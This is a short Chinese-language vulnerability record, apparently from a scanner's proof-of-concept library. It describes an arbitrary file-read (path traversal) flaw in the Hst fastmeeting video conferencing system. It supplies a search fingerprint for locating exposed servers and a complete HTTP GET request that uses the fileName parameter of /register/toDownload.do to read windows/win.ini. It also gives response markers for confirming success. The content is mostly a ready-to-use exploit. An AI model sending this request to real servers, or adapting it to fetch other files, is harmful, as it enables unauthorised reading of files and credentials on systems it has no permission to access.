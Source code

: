 ﻿# 好视通视频会议系统 fastmeeting toDownload.do接口任意文件读取漏洞

> 更新时间：2023-12-07

> 漏洞编号：

> 漏洞说明：视通视频会议系统的文件(fastmeeting) /register/toDownload.do?fileName= 存在任意文件遍历漏洞，可通过fileName参数读取任意文件。

> 漏洞特征：app="好视通-视频会议"

> 验证脚本：HTTP

```
GET /register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini HTTP/1.1
Accept: */*
Connection: Keep-Alive
```

> 响应代码特征：200

> 响应内容特征：support

> 上传文件定位：

> 验证文件来源：Dude Suite Web Security Tools - https://www.dudesuite.cn - 转载请注明出处
